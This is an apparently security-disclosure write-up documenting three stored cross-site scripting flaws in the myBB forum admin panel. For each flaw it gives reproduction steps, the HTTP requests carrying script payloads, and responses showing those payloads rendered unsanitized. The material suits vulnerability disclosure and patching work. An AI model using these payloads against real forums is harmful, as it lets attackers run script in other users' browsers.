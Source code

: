 ### myBB Forum Stored XSS

Stored XSS #1:


To reproduce do the following:

1. Login as administrator user
2. Browse to "Templates and Style" -> "Templates" -> "Manage Templates" -> "Global 
Templates" 
3. Select "Add New Template" and enter payload "><img src=x onerror=alert(1)>


```
// HTTP POST request showing XSS payload

POST /mybb_1826/admin/index.php?module=style-templates&action=edit_template HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

my_post_key=60dcf2a0bf3090dbd2c33cd18733dc4c&title="><img+src=x+onerror=alert(1)>&sid=-1&template=&continue=Save+and+Continue+Editing


// HTTP redirect response to specific template

HTTP/1.1 302 Found
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
Location: index.php?module=style-templates&action=edit_template&title=%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&sid=-1
[...]


// HTTP GET request to newly created template

GET /mybb_1826/admin/index.php?module=style-templates&sid=-1 HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
X-Powered-By: PHP/5.6.40
[...]

<tr class="first">
<td class="first"><a href="index.php?module=style-templates&amp;action=edit_template&amp;title=%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&amp;sid=-1">"><img src=x onerror=alert(1)></a></td>
[...]
```



Stored XSS #2:


To reproduce do the following:
1. Login as administrator user
2. Browse to "Forums and Posts" -> "Forum Management"
3. Select "Add New Forum" and enter payload "><script>alert(1)</script>


```
// HTTP POST request showing XSS payload
POST /mybb_1826/admin/index.php?module=forum-management&action=add HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]
my_post_key=60dcf2a0bf3090dbd2c33cd18733dc4c&type=f&title="><script>alert(1)</
script>&description="><script>alert(2)</script[...]


// HTTP response showing successfully added a new forum
HTTP/1.1 200 OK
Date: Sun, 20 Nov 2022 11:00:28 GMT
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]


// HTTP GET request to fetch forums
GET /mybb_1826/admin/index.php?module=forum-management HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]

// HTTP response showing unsanitized XSS payload
HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]
<small>Sub Forums:  <a href="index.php?module=forum-management&amp;fid=3">"><script>alert(1)</script></a></small>
```


Stored XSS #3:


To reproduce do the following:
1. Login as administrator user
2. Browse to "Forums and Posts" -> "Forum Announcements"
3. Select "Add Announcement" and enter payload "><img+src=x+onerror=alert(1)>


```
// HTTP POST request showing XSS payload
POST /mybb_1826/admin/index.php?module=forum-announcements&action=add HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]

my_post_key=60dcf2a0bf3090dbd2c33cd18733dc4c&title="><img+src=x+onerror=alert(1)>&s
tarttime_day=20&starttime_month=11&starttime_year=2022&starttime_time=11:05+AM&endt
ime_day=20&endtime_month=11&endtime_year=2023&endtime_time=11:05+AM&endtime_type=2&
message="><script>alert(2)</script>&fid=2&allowmycode=1&allowsmilies=1

// HTTP response showing successfully added an anouncement
HTTP/1.1 302 Found
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]


// HTTP GET request to fetch forum URL
GET /mybb_1826/ HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]

// HTTP response showing unsanitized XSS payload
HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]
<a href="forumdisplay.php?fid=3" title="">"><script>alert(1)</script></a>
```




